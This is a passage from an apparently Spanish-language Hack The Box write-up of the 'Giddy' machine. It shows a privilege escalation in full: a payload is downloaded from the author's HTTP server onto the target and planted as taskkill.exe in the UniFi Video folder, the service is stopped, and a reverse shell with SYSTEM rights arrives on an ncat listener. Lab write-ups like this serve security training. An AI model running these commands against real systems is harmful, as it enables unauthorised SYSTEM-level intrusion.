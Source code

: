 Abrimos una ncat para esperar la conexión, ejecutamos el modulo de python para iniciar un servidor web y descargamos el archivo:

Shell1:
```
[10.10.10.104]: PS C:\programdata\unifi-video> wget http://10.10.13.121:4001/r.exe -O taskkill.exe
```

Shell2:
```
xbytemx@laptop:~/htb/giddy/www$ python -m SimpleHTTPServer 4001
Serving HTTP on 0.0.0.0 port 4001 ...
10.10.10.104 - - [16/Feb/2019 01:24:09] "GET /r.exe HTTP/1.1" 200 -
```

Shell3:
```
xbytemx@laptop:~/htb/giddy$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
```

# Exploiting

Ahora solo necesitamos detener el servicio UniFiVideoService y esperar en Shell3:

Shell1:
```
[10.10.10.104]: PS C:\programdata\unifi-video> stop-service UniFiVideoService
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
WARNING: Waiting for service 'Ubiquiti UniFi Video (UniFiVideoService)' to stop...
```

Shell3:
```
xbytemx@laptop:~/htb/giddy$ ncat -vnlp 3001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.104.
Ncat: Connection from 10.10.10.104:50970.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\ProgramData\unifi-video>whoami
whoami
nt authority\system

C:\ProgramData\unifi-video>cd c:\Users\Administrator\Desktop
cd c:\Users\Administrator\Desktop
```


[10.10.10.104]: PS C:\Users\Stacy\Documents> ls
[10.10.10.104]: PS C:\Users\Stacy> cd c:\programdata\unifi-video\
[10.10.10.104]: PS C:\programdata\unifi-video> dir
[10.10.10.104]: PS C:\programdata\unifi-video> cat .\data\system.properties
[10.10.10.104]: PS C:\programdata\unifi-video> Get-ChildItem -recurse HKLM:\SYSTEM\CurrentControlSet\Services | findstr -i "unifi"